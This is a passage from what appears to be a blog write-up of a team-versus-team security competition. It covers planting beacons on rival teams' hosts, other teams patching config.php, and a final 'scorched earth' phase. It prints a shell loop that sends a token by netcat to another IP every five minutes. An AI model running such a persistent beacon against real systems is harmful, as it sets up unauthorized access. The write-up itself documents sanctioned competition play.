 From there, it was simply creating a background process that would call the beacon host every 5 min:
```
while true; do echo cf60a1a0-ebee-47a9-a1b6-0e4868f35f18 | nc 10.150.0.194 9999; sleep 5m; done
```

Since there wasn't much time, I decided to yeet opsec out the window and mass exploit the teams:
![purple-beacon](/assets/images/pvj21-purple-beacon.png)
What a refreshing sight to see after other teams placed beacons on our hosts :monkey:  John also got two beacons in before mine as well!

After a while though, some teams caught on and patched their `config.php` as well!  
![patched](/assets/images/pvj21-patched.png)

<div class="divider"></div>

# Scorched Earth :fire:

This was the last phase during the final hour of the comp where now most of the rules are abolished and "everything goes". Surprisngly this time round our team only lost our `samba` host. Perhaps the Red Cell was going easy on us... in previous years almost all the hosts went down :sweat_smile:

Here is some of the chaos that went down:  
They removed certain diagnostic tools such as `w`, `which`,`killall`  and `apt`.  
  